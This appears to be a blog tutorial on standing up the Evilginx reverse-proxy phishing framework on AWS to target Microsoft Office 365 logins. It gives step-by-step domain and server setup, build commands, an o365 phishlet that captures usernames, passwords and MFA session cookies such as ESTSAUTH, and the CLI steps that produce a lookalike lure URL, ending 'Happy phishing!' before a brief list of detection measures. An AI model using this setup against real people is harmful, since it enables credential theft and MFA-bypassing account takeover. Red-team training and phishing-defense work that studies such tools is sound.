

Evilginx is a phishing framework designed to demonstrate how session hijacking works in modern authentication flows. By acting as a man-in-the-middle proxy, it captures authentication tokens after a successful login, effectively bypassing multi-factor authentication (MFA).

In this post, I’ll walk you through:
- What Evilginx is and how it works
- What "phishlets" are
- A full implementation on AWS using a phishing domain
- DNS and server setup
- Installation and configuration of Evilginx
- Key takeaways for detection and defense

---

## What Is Evilginx?

Evilginx is a modern phishing framework that uses reverse proxy techniques to intercept communication between a target and legitimate authentication services like Microsoft or Google. It captures the victim’s login credentials during the authentication process, and crucially, it also harvests the session tokens issued after successful multi-factor authentication (MFA). These tokens can then be reused to impersonate the user without needing to re-enter credentials or MFA codes.

---

## How Evilginx Works Under the Hood

Evilginx sits between the user and the target service by acting as a **man-in-the-middle reverse proxy**.

```text
User → Evilginx → Real Login Service (e.g., login.microsoftonline.com)
```

It relays all traffic and injects a few JavaScript hooks to:
- Strip headers that protect against reuse
- Capture session tokens and cookies

Once the victim logs in (including their 2FA), Evilginx captures the valid session token and relays it back to the attacker, who can now impersonate the user. This is done by the use of phishlets.

## What Are Phishlets?
Phishlets are configuration files in YAML that define:
- The target domain (e.g., login.microsoftonline.com)
- Which subdomains to proxy
- Cookie/session rules to capture
- Header manipulations
- URL rewrites

A sample phishlet (simplified):

```yaml
name: 'microsoft'
author: 'Evilginx'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com'}
sub_filters:
  - {triggers_on: 'login.microsoftonline.com', …}
auth_tokens:
  - domain: '.microsoftonline.com'
    keys: ['ESTSAUTH', 'ESTSAUTHPERSISTENT']
```

## Target: Phishing an Office 365 Account
In this example, we’re targeting Microsoft Office 365 logins. The goal is to transparently proxy the login flow, capture the victim’s credentials, and extract the session tokens issued after MFA. To accomplish this, we used a phishlet specifically designed to mirror Microsoft’s login flows across microsoftonline.com and office.com.

### Building the Evilginx Setup on AWS
Let’s walk through how I implemented Evilginx in a real-world simulation.

1. Spin Up an EC2 Instance

I launched an Ubuntu 22.04 EC2 instance in AWS with an allocated Elastic IP and attached it to the instance.

**_NOTE:_** Evilginx requires ports 80 and 443 open. Adjust security groups accordingly.

2. Register a Phishing Domain

I registered a phishing domain and from there I set the A record for:
- @ (root domain)
- login.rootdomain.com
- device.login.rootdomain.com
- device.rootdomain.com

All pointed to the Elastic IP of my EC2 instance.


3. Install Dependencies into your EC2 box and run:

```bash
sudo apt update && sudo apt install git make golang certbot nginx -y
```

4. Download and Build Evilginx

I just grabbed the latest official release of evilginx and downloaded it with wget.


```bash
wget https://github.com/kgretzky/evilginx2/releases/download/v3.3.0/evilginx-v3.3.0-linux-64bit.zip
mkdir evilginx
cd evilginx
unzip ../evilginx-v3.3.0-linux-64bit.zip
make
```

### Phishlet Configuration: o365.yaml
I used the o365 phishlet from https://github.com/An0nUD4Y/Evilginx2-Phishlets/blob/master/o365.yaml.

Here’s a breakdown of the important sections of this phishlet:

#### Proxy Hosts
```yaml
proxy_hosts:
- {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true}
- {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: false, is_landing: false}
```

These lines configure which subdomains to proxy:
- login.microsoftonline.com is the main auth portal.
- www.office.com is included in case the flow redirects post-login.
- session: true ensures tokens are captured on the login domain.

#### Substitution Filters
```yaml
sub_filters:
- {triggers_on: 'login.microsoftonline.com', search: 'href="https://{hostname}', replace: 'href="https://{hostname}', mimes: [...] }
- {..., redirect_only: true}
```
These filters rewrite specific URL and script references to ensure traffic routes through Evilginx’s proxy. Without these, the browser might bypass the proxy and contact Microsoft directly — breaking the phish.

#### Auth Tokens
```yaml
auth_tokens:
- domain: '.login.microsoftonline.com'
  keys: ['ESTSAUTH,opt', 'ESTSAUTHPERSISTENT,opt', '.*,regexp']
- domain: 'login.microsoftonline.com'
  keys: ['SignInStateCookie,opt', '.*,regexp']
```
This section tells Evilginx which cookies (tokens) to extract after authentication. These are the golden tickets — they allow session reuse and MFA bypass.


#### Credential Capture
```yaml
credentials:
username:
key: 'login'
search: '(.*)'
type: 'post'
password:
key: 'passwd'
search: '(.*)'
type: 'post'
```
Evilginx captures both the username and password fields during the login POST request. These are stored alongside the session tokens.


#### Auth URLs
```yaml
auth_urls:
- '/common/SAS/ProcessAuth'
- '/kmsi'
- '/'
```
These URLs define key endpoints to monitor for login completion. Evilginx watches these to determine when authentication is finished.

#### Force POST Modifications
```yaml
force_post:
- path: '/kmsi'
  force:
  - {key: 'LoginOptions', value: '1'}
```
These modify POST body values (like "Keep Me Signed In" toggles) to ensure consistency and improve token persistence.

#### JS Injection
The phishlet also injects JavaScript to auto-fill the victim’s email, silently manipulate page elements, and steal tokens from URL fragments to make the phishing process seamless. It also includes Evilginx setup instructions, detection strategies, and a lot of other stuff.

### Configure and Run Evilginx

Fist create the phishlet in evilginx/phishlets
```bash
sudo vim phishlets/m365.yaml
```
_paste the phishlet content_

Start the Evilginx interface:

```bash
sudo ./evilginx
```
evilginx
Within the CLI:

```bash
config domain <YOUR_PHISHING_DOMAIN>
config ip <YOUR_ELASTIC_IP>
phishlets hostname <YOUR_PHISHING_DOMAIN>
phishlets enable m365
```
You should see:

```bash
[+] Phishlet 'm365' enabled.
```


Then launch the listener:

```bash
lures create o365
config redirect_url https://office.com
```

This gives you a phishing URL, e.g.:
```bash
https://login.micros0ftonline.com/abc123
```

You can now use it to target the victim. Happy phishing!

### Detection & Defense


1. Unfamiliar Domains. Block lookalike domains via proxy/DNS filters


2. Monitor domain registrations for your brand (DNSTwist, VirusTotal)


3. Impossible Travel or Device Change
Logins with correct credentials/MFA but from new IP/geolocation


4. Short-Lived Sessions
Sessions originating from known cloud providers (e.g., AWS, GCP) right after legitimate user login 


5. TLS Certificate Anomalies
Certificates for domains mimicking login providers


6. Encourage users to adopt FIDO2 security keys or platform passkeys, which resist phishing by cryptographically binding authentication to the legitimate domain
